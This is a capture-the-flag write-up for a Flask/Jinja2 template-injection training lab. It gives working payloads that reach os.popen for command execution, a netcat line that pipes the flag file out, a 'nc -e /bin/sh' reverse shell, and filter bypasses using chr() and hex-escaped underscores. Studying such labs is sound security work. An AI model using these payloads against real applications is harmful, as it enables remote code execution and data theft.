 # SSTI Labs (by X3NNY) writeup
* You can find the link to the lab [here](https://github.com/X3NNY/sstilabs)

## Fingerprinting
* When we input `{{7*'7'}}`, Twig would output `49`, while Jinja2/Flask output `7777777`
* 


## Flask-Lab
### Level 1
* First, we can test for template injection by typing in `{{7 + 7}}`, which gives us `Hello 14`, which proves it is evaluating our input (and thus has SSTI)

* This is a basic problem. It doesn't seem like theres any input sanitization 
	* Here, our goal should be to find a function so we can look for the globals and run a command.

* **Note**: All these commands have to be included in the template structure `{{}}` because of how flask handles templating

* Interestingly, the python interpreter uses python itself internally, so we can access that in a bit of a roundabout way.
* The payload I used was: 

```python3
# look at files
{{ " ".__class__.__base__ .__subclasses__()[140].__init__.__globals__['sys'].modules['os'].popen('ls').read() }}

# cat files
{{ " ".__class__.__base__ .__subclasses__()[140].__init__.__globals__['sys'].modules['os'].popen('cat flag').read() }}
```
#### Breaking down the payload
1. Here, we are using an empty string and getting the `<class 'str'>` class
2. Next, we get the base (parent) of that class, which is the python object class: `<class 'object'>
3. `__subclasses__()` is a python function that gives us all child classes of a class, so this gives us a list of classes that inheret object
	1. Now, we have to find an index of this list that imports `sys`, which you can check for in the python source code.
	2. I used the `<class 'warnings.catch_warnings'>` class, which is typically around index `140` depending on your python version
4. `__init__` is like the constructor for any given class, and it a function we can be confident is in the class.
5. Once we have a function, `__globals__` gets us all the imported modules (and other globals) in the file from the function, which includes the sys module
6. `sys` includes the the the `os` module, so we can access the `.modules` dictionary to get the modules loaded, one of which is `os`
7. Now that we have access to the os module, we can run `popen('<command>').read()` and we have arbitrary code execution!

#### Alternative methods
* **Note**: This is a general method that works for most python SSTI
* However, we can do something specific on flask sites
* Because we know this is running flask, we know a function, [`url_for`](https://flask.palletsprojects.com/en/2.0.x/api/#flask.url_for), exists, which [imports os](https://github.com/pallets/flask/blob/main/src/flask/helpers.py)
	* Thus, we can do the same thing as before and run `url_for.__globals__.os.popen(<command>).read()`
* When we type in `{{ url_for.__globals__.os.popen('cat flag').read() }}`, we get the flag: `SSTILAB{enjoy_flask_ssti}`

## Level 2
* Immediately, it looks like even something as basic as `{{7 + 7}}` or `{{7}}` returns `Hello WAF`
	* Testing more, it looks like `{{` in particular is a blocked string

* We can bypass this, as flask has [more than one](https://flask.palletsprojects.com/en/2.0.x/tutorial/templates/) template type
	* For example, there is a `{%%}` template that is used for conditional checks
	* Unfortunately, this doesn't display anything, so our RCE is completely blind.

* To account for this, we're going to cat our output with the command `cat flag | nc 127.0.0.1 4444`
	* We can listen for a connection with `nc -lvnp 4444` locally

* Alternatively, we can also try to run a reverse shell using the command `nc -e /bin/sh 127.0.0.1 4444`
	* This serves a shell to localhost (our machine) on port 4444
	
* Here's the payload I used:
```python3
{% if url_for.__globals__.os.popen('cat flag | nc 127.0.0.1 4444').read() == 'blah' %}{% endif %}

```
#### Breaking down the payload
1. This checks to see if the condition `url_for.__globals__.os.popen('cat flag | nc 127.0.0.1 4444').read() == 'blah'` is true
	1. In this case, we know the output won't be 'blah', but the command still executes
2. Everything between `{% if %}` and `{% endif %}` is what would typically execute if the condition was true, but we don't have to worry about that here.

### Level 3
* Here, no matter what we input, we only see `wrong` or `correct` as an output
	* This is a classic blind SSTI problem
* Once again, we can use netcat to serve the file to us on our local machine
* It looks like there isn't any WAF on this level, so we can use roughly the same payload as last time:

```python3
{{ url_for.__globals__.os.popen('cat flag | nc 127.0.0.1 4444') }}
```

### Level 4
* For this level, it looks like `{{`, `}}`, `{{7 + 7}}`, and `{{7 * '7'}}` all work, but `[` and `]` are blocked 
* Thus, we can do exactly what we did in level 1:

```python3
{{ url_for.__globals__.os.popen('cat flag').read() }}
```

### Level 5
* For this level, it seems like single and double quotes are blocked

* At first I wanted to use chr() to convert digits into an ascii representation of the string, but flask doesn't have a built-in chr() function
	* Fortunately, we can still access python's chr() function

* To figure out the integer representation of 'flag', i used `[ord(i) for i in 'flag']`, which gave me the numbers `[102, 108, 97, 103]`


* Here's the payload I used:

```python3
{{ url_for.__globals__.__builtins__.open(url_for.__globals__.__builtins__.chr(102) + url_for.__globals__.__builtins__.chr(108) + url_for.__globals__.__builtins__.chr(97) + url_for.__globals__.__builtins__.chr(103)).read()}}
```
#### Breaking down the payload
1. To get the chr() function, we do the same thing as before, but access the [`__builtins__` module](https://docs.python.org/3/library/builtins.html), which has many useful functions, like `open()` and `chr()`
	1. To get a character based on any ordinal value, we can write `url_for.__globals__.__builtins__.chr(NUM)`
2. Thus, to get the whole `flag` string, we just append all of those together
3. Then, we use `url_for.__globals__.os.open()` and pass in the flag string to read the flag file


### Level 6
* It looks like in this level, we can't use any underscores
* Luckily, flask processes hex characters, so we can replace all our blocked characters with hex bytes
	* In this case, an underscore is 0x5f

* Here is the original payload along with the underscores converted to hex:
```python3

{{ " ".__class__.__base__ .__subclasses__()[140].__init__.__globals__['sys'].modules['os'].popen('cat flag').read() }}

{{""["\x5f\x5fclass\x5f\x5f"]["\x5f\x5fbase\x5f\x5f"]["\x5f\x5fsubclasses\x5f\x5f"]()[140]["\x5f\x5finit\x5f\x5f"]["\x5f\x5fglobals\x5f\x5f"]['sys'].modules.os.popen('cat flag').read() }}


```
